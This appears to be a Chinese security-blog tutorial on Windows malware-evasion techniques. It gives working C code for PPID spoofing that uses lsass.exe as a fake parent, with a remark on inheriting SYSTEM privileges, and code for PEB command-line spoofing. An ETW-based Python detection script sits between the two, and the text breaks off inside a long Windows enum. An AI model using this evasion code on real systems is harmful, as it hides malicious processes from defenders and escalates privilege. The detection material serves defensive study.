# 免杀基础-ppid伪造-先知社区

> **来源**: https://xz.aliyun.com/news/16214  
> **文章ID**: 16214

---

# ppid欺骗与排查

## PPID欺骗

`CreateProcess`创建的进程 通过在`STARTUPINFO`中添加`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`来指定父进程句柄





1. 遍历进程 获取想要位置的进程pid

```
DWORD getParentProcessID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32)};

    if (Process32First(snapshot, &pe32)) {
        do {
            if (!wcscmp(pe32.szExeFile, L"lsass.exe"))
                break;
        } while (Process32Next(snapshot, &pe32));
    }

    CloseHandle(snapshot);
    return pe32.th32ProcessID;
}

```

1. 创建STARTUPINFOEX 初始化属性列表 创建进程

要设置进程的扩展属性 需要使用`STARTUPINFOEX`而不是`STARTUPINFO`

第一次调用 `InitializeProcThreadAttributeList` 会失败 将所需缓冲区长度写入`size_t` 分配对应的内存后再进行初始化

```
STARTUPINFOEX si = { sizeof(STARTUPINFOEX) };
PROCESS_INFORMATION pi;
SIZE_T size_t;
HANDLE expProcess;

expProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,getParentProcessID());
InitializeProcThreadAttributeList(NULL,1,0,&size_t);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(),0,size_t);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size_t);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expProcess, sizeof(expProcess), NULL, NULL);

    CreateProcess(NULL, _tcsdup(L"C:\Program Files\\WindowsApps\\Microsoft.WindowsNotepad_11.2208.25.0_x64__8wekyb3d8bbwe\\Notepad\\Notepad.exe"), NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL,NULL, &si.StartupInfo, &pi);

```



可以看见我们成功伪造了父进程 当前目录依旧是比较异常的

修改`lpCurrentDirectory`即可

```
CreateProcess(NULL, _tcsdup(L"C:\Program Files\\WindowsApps\\Microsoft.WindowsNotepad_11.2208.25.0_x64__8wekyb3d8bbwe\\Notepad\\Notepad.exe"), NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, L"C:\\Windows\\System32\\", &si.StartupInfo, &pi);

```


与此同时 子进程还能从父进程继承访问令牌以提升权限 也就是说管理员权限运行的马子在伪装ppid为具有system权限的进程时 可以获得system权限





## PPID欺骗排查

使用`logman`开启事件追踪



```
logman create trace "myTrace" -ets
logman update myTrace -p Microsoft-Windows-Kernel-Process 0x70 -ets
```



已经开始记录了

我们依次通过everything打开notepad 和 伪造ppid打开notepad

然后暂停记录

`logman stop "myTrace" -ets`

通过wmic可以查询ppid

`wmic process where (processid=xxx) get parentprocessid`





在记录下pid ppid后

在`eventvwr`中打开日志 搜索`40336 started`

这个是everything 创建的Notepad



这个是伪造ppid创建的Notepad 可以看见 这里执行的`PID`并不是我们伪造的`1284 lsass.exe`



执行pid和父进程pid不一致 这个是可疑的 我们可以根据这个写出排查脚本

```
import time
import etw
import psutil

def process_event(event):
    try:
        event = event[1]
        if event["Task Name"] == "PROCESSSTART":

            pid = int(event["ProcessID"])
            epid = event["EventHeader"]["ProcessId"]
            ppid = psutil.Process(pid).ppid()

            if epid != ppid:
                print(f"{event['CreateTime']} - PPID Spoofing detected!")
                print(f"[+] pid: {pid}")

    except Exception as e:
        print(f"Error processing event: {e}")

providers = [etw.ProviderInfo('Microsoft-Windows-Kernel-Process', etw.GUID("{22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}"))]

job = etw.ETW(providers=providers, event_callback=process_event,event_id_filters=[1])


try:
    print("press ctrl+c to stop tracing")
    job.start()

    time.sleep(999999) 
except KeyboardInterrupt:
    print("Stopping ETW session...")
finally:
    job.stop()

```




# 进程参数伪造

首先我们得了解什么是`PEB`

## PEB

Process Environment Block 是一个结构体 他包含了该进程的所有全局信息





其中`RTL_USER_PROCESS_PARAMETERS` 结构体中保存了相关参数

64位下可以通过读gs段指定偏移 `gs:[0x60]` 拿到PEB的地址 32位则是fs `fs:[0x30]`

```
typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;
typedef struct _RTL_DRIVE_LETTER_CURDIR {
    USHORT                  Flags;
    USHORT                  Length;
    ULONG                   TimeStamp;
    UNICODE_STRING          DosPath;
} RTL_DRIVE_LETTER_CURDIR, * PRTL_DRIVE_LETTER_CURDIR;
typedef struct _RTL_USER_PROCESS_PARAMETERS {
    ULONG                   MaximumLength;
    ULONG                   Length;
    ULONG                   Flags;
    ULONG                   DebugFlags;
    PVOID                   ConsoleHandle;
    ULONG                   ConsoleFlags;
    HANDLE                  StdInputHandle;
    HANDLE                  StdOutputHandle;
    HANDLE                  StdErrorHandle;
    UNICODE_STRING          CurrentDirectoryPath;
    HANDLE                  CurrentDirectoryHandle;
    UNICODE_STRING          DllPath;
    UNICODE_STRING          ImagePathName;
    UNICODE_STRING          CommandLine;
    PVOID                   Environment;
    ULONG                   StartingPositionLeft;
    ULONG                   StartingPositionTop;
    ULONG                   Width;
    ULONG                   Height;
    ULONG                   CharWidth;
    ULONG                   CharHeight;
    ULONG                   ConsoleTextAttributes;
    ULONG                   WindowFlags;
    ULONG                   ShowWindowFlags;
    UNICODE_STRING          WindowTitle;
    UNICODE_STRING          DesktopName;
    UNICODE_STRING          ShellInfo;
    UNICODE_STRING          RuntimeData;
    RTL_DRIVE_LETTER_CURDIR DLCurrentDirectory[0x20];


} RTL_USER_PROCESS_PARAMETERS, * PRTL_USER_PROCESS_PARAMETERS;
typedef struct _PEB_LDR_DATA {
    ULONG                   Length;
    BOOLEAN                 Initialized;
    PVOID                   SsHandle;
    LIST_ENTRY              InLoadOrderModuleList;
    LIST_ENTRY              InMemoryOrderModuleList;
    LIST_ENTRY              InInitializationOrderModuleList;
} PEB_LDR_DATA, * PPEB_LDR_DATA;
typedef struct _PEB {
    BOOLEAN                 InheritedAddressSpace;
    BOOLEAN                 ReadImageFileExecOptions;
    BOOLEAN                 BeingDebugged;
    BOOLEAN                 Spare;
    HANDLE                  Mutant;
    PVOID                   ImageBaseAddress;
    PPEB_LDR_DATA           LoaderData;
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
    PVOID                   SubSystemData;
    PVOID                   ProcessHeap;
    PVOID                   FastPebLock;
    PVOID         FastPebLockRoutine;
    PVOID         FastPebUnlockRoutine;
    ULONG                   EnvironmentUpdateCount;
    PVOID                  KernelCallbackTable;
    PVOID                   EventLogSection;
    PVOID                   EventLog;
    PVOID         FreeList;
    ULONG                   TlsExpansionCounter;
    PVOID                   TlsBitmap;
    ULONG                   TlsBitmapBits[0x2];
    PVOID                   ReadOnlySharedMemoryBase;
    PVOID                   ReadOnlySharedMemoryHeap;
    PVOID                  ReadOnlyStaticServerData;
    PVOID                   AnsiCodePageData;
    PVOID                   OemCodePageData;
    PVOID                   UnicodeCaseTableData;
    ULONG                   NumberOfProcessors;
    ULONG                   NtGlobalFlag;
    BYTE                    Spare2[0x4];
    LARGE_INTEGER           CriticalSectionTimeout;
    ULONG                   HeapSegmentReserve;
    ULONG                   HeapSegmentCommit;
    ULONG                   HeapDeCommitTotalFreeThreshold;
    ULONG                   HeapDeCommitFreeBlockThreshold;
    ULONG                   NumberOfHeaps;
    ULONG                   MaximumNumberOfHeaps;
    PVOID* ProcessHeaps;
    PVOID                   GdiSharedHandleTable;
    PVOID                   ProcessStarterHelper;
    PVOID                   GdiDCAttributeList;
    PVOID                   LoaderLock;
    ULONG                   OSMajorVersion;
    ULONG                   OSMinorVersion;
    ULONG                   OSBuildNumber;
    ULONG                   OSPlatformId;
    ULONG                   ImageSubSystem;
    ULONG                   ImageSubSystemMajorVersion;
    ULONG                   ImageSubSystemMinorVersion;
    ULONG                   GdiHandleBuffer[0x22];
    ULONG                   PostProcessInitRoutine;
    ULONG                   TlsExpansionBitmap;
    BYTE                    TlsExpansionBitmapBits[0x80];
    ULONG                   SessionId;

} PEB, * PPEB;

```

```
#ifdef _WIN64
    PPEB peb = (PPEB)__readgsqword(0x60);
#endif
#ifdef _X86_
    PPEB peb = (PPEB)__readfsdword(0x30);
#endif

```



这是针对当前进程的 注意修改后的字符串不能比之前的长 否则会覆盖其它字节导致崩溃

当然连着length修改也行

```
peb->ProcessParameters->CommandLine.Buffer = _wcsdup(L"\"C:\\Windows\\SysWOW64\\IME\\SogouPY\\SogouImeBroker.exe\"      ");

```



## 远程进程

如果需要修改远程进程 可以考虑通过`NtQueryInformationProcess`获取PEB

```
typedef enum _PROCESSINFOCLASS
{
    ProcessBasicInformation, // q: PROCESS_BASIC_INFORMATION, PROCESS_EXTENDED_BASIC_INFORMATION
    ProcessQuotaLimits, // qs: QUOTA_LIMITS, QUOTA_LIMITS_EX
    ProcessIoCounters, // q: IO_COUNTERS
    ProcessVmCounters, // q: VM_COUNTERS, VM_COUNTERS_EX, VM_COUNTERS_EX2
    ProcessTimes, // q: KERNEL_USER_TIMES
    ProcessBasePriority, // s: KPRIORITY
    ProcessRaisePriority, // s: ULONG
    ProcessDebugPort, // q: HANDLE
    ProcessExceptionPort, // s: PROCESS_EXCEPTION_PORT (requires SeTcbPrivilege)
    ProcessAccessToken, // s: PROCESS_ACCESS_TOKEN
    ProcessLdtInformation, // qs: PROCESS_LDT_INFORMATION // 10
    ProcessLdtSize, // s: PROCESS_LDT_SIZE
    ProcessDefaultHardErrorMode, // qs: ULONG
    ProcessIoPortHandlers, // (kernel-mode only) // s: PROCESS_IO_PORT_HANDLER_INFORMATION
    ProcessPooledUsageAndLimits, // q: POOLED_USAGE_AND_LIMITS
    ProcessWorkingSetWatch, // q: PROCESS_WS_WATCH_INFORMATION[]; s: void
    ProcessUserModeIOPL, // qs: ULONG (requires SeTcbPrivilege)
    ProcessEnableAlignmentFaultFixup, // s: BOOLEAN
    ProcessPriorityClass, // qs: PROCESS_PRIORITY_CLASS
    ProcessWx86Information, // qs: ULONG (requires SeTcbPrivilege) (VdmAllowed)
    ProcessHandleCount, // q: ULONG, PROCESS_HANDLE_INFORMATION // 20
    ProcessAffinityMask, // (q >WIN7)s: KAFFINITY, qs: GROUP_AFFINITY
    ProcessPriorityBoost, // qs: ULONG
    ProcessDeviceMap, // qs: PROCESS_DEVICEMAP_INFORMATION, PROCESS_DEVICEMAP_INFORMATION_EX
    ProcessSessionInformation, // q: PROCESS_SESSION_INFORMATION
    ProcessForegroundInformation, // s: PROCESS_FOREGROUND_BACKGROUND
    ProcessWow64Information, // q: ULONG_PTR
    ProcessImageFileName, // q: UNICODE_STRING
    ProcessLUIDDeviceMapsEnabled, // q: ULONG
    ProcessBreakOnTermination, // qs: ULONG
    ProcessDebugObjectHandle, // q: HANDLE // 30
    ProcessDebugFlags, // qs: ULONG
    ProcessHandleTracing, // q: PROCESS_HANDLE_TRACING_QUERY; s: PROCESS_HANDLE_TRACING_ENABLE[_EX] or void to disable
    ProcessIoPriority, // qs: IO_PRIORITY_HINT
    ProcessExecuteFlags, // qs: ULONG (MEM_EXECUTE_OPTION_*)
    ProcessTlsInformation, // PROCESS_TLS_INFORMATION // ProcessResourceManagement
    ProcessCookie, // q: ULONG
    ProcessImageInformation, // q: SECTION_IMAGE_INFORMATION
    ProcessCycleTime, // q: PROCESS_CYCLE_TIME_INFORMATION // since VISTA
    ProcessPagePriority, // qs: PAGE_PRIORITY_INFORMATION
    ProcessInstrumentationCallback, // s: PVOID or PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION // 40
    ProcessThreadStackAllocation, // s: PROCESS_STACK_ALLOCATION_INFORMATION, PROCESS_STACK_ALLOCATION_INFORMATION_EX
    ProcessWorkingSetWatchEx, // q: PROCESS_WS_WATCH_INFORMATION_EX[]; s: void
    ProcessImageFileNameWin32, // q: UNICODE_STRING
    ProcessImageFileMapping, // q: HANDLE (input)
    ProcessAffinityUpdateMode, // qs: PROCESS_AFFINITY_UPDATE_MODE
    ProcessMemoryAllocationMode, // qs: PROCESS_MEMORY_ALLOCATION_MODE
    ProcessGroupInformation, // q: USHORT[]
    ProcessTokenVirtualizationEnabled, // s: ULONG
    ProcessConsoleHostProcess, // qs: ULONG_PTR // ProcessOwnerInformation
    ProcessWindowInformation, // q: PROCESS_WINDOW_INFORMATION // 50
    ProcessHandleInformation, // q: PROCESS_HANDLE_SNAPSHOT_INFORMATION // since WIN8
    ProcessMitigationPolicy, // s: PROCESS_MITIGATION_POLICY_INFORMATION
    ProcessDynamicFunctionTableInformation, // s: PROCESS_DYNAMIC_FUNCTION_TABLE_INFORMATION
    ProcessHandleCheckingMode, // qs: ULONG; s: 0 disables, otherwise enables
    ProcessKeepAliveCount, // q: PROCESS_KEEPALIVE_COUNT_INFORMATION
    ProcessRevokeFileHandles, // s: PROCESS_REVOKE_FILE_HANDLES_INFORMATION
    ProcessWorkingSetControl, // s: PROCESS_WORKING_SET_CONTROL (requires SeDebugPrivilege)
    ProcessHandleTable, // q: ULONG[] // since WINBLUE
    ProcessCheckStackExtentsMode, // qs: ULONG // KPROCESS->CheckStackExtents (CFG)
    ProcessCommandLineInformation, // q: UNICODE_STRING // 60
    ProcessProtectionInformation, // q: PS_PROTECTION
    ProcessMemoryExhaustion, // s: PROCESS_MEMORY_EXHAUSTION_INFO // since THRESHOLD
    ProcessFaultInformation, // s: PROCESS_FAULT_INFORMATION
    ProcessTelemetryIdInformation, // q: PROCESS_TELEMETRY_ID_INFORMATION
    ProcessCommitReleaseInformation, // qs: PROCESS_COMMIT_RELEASE_INFORMATION
    ProcessDefaultCpuSetsInformation, // qs: SYSTEM_CPU_SET_INFORMATION[5]
    ProcessAllowedCpuSetsInformation, // qs: SYSTEM_CPU_SET_INFORMATION[5]
    ProcessSubsystemProcess,
    ProcessJobMemoryInformation, // q: PROCESS_JOB_MEMORY_INFO
    ProcessInPrivate, // q: BOOLEAN; s: void // ETW // since THRESHOLD2 // 70
    ProcessRaiseUMExceptionOnInvalidHandleClose, // qs: ULONG; s: 0 disables, otherwise enables
    ProcessIumChallengeResponse,
    ProcessChildProcessInformation, // q: PROCESS_CHILD_PROCESS_INFORMATION
    ProcessHighGraphicsPriorityInformation, // qs: BOOLEAN (requires SeTcbPrivilege)
    ProcessSubsystemInformation, // q: SUBSYSTEM_INFORMATION_TYPE // since REDSTONE2
    ProcessEnergyValues, // q: PROCESS_ENERGY_VALUES, PROCESS_EXTENDED_ENERGY_VALUES
    ProcessPowerThrottlingState, // qs: POWER_THROTTLING_PROCESS_STATE
    ProcessReserved3Information, // ProcessActivityThrottlePolicy // PROCESS_ACTIVITY_THROTTLE_POLICY
    ProcessWin32kSyscallFilterInformation, // q: WIN32K_SYSCALL_FILTER
    ProcessDisableSystemAllowedCpuSets, // s: BOOLEAN // 80
    ProcessWakeInformation, // q: PROCESS_WAKE_INFORMATION
    ProcessEnergyTrackingState, // qs: PROCESS_ENERGY_TRACKING_STATE
    ProcessManageWritesToExecutableMemory, // MANAGE_WRITES_TO_EXECUTABLE_MEMORY // since REDSTONE3
    ProcessCaptureTrustletLiveDump,
    ProcessTelemetryCoverage, // q: TELEMETRY_COVERAGE_HEADER; s: TELEMETRY_COVERAGE_POINT
    ProcessEnclaveInformation,
    ProcessEnableReadWriteVmLogging, // qs: PROCESS_READWRITEVM_LOGGING_INFORMATION
    ProcessUptimeInformation, // q: PROCESS_UPTIME_INFORMATION
    ProcessImageSection, // q: HANDLE
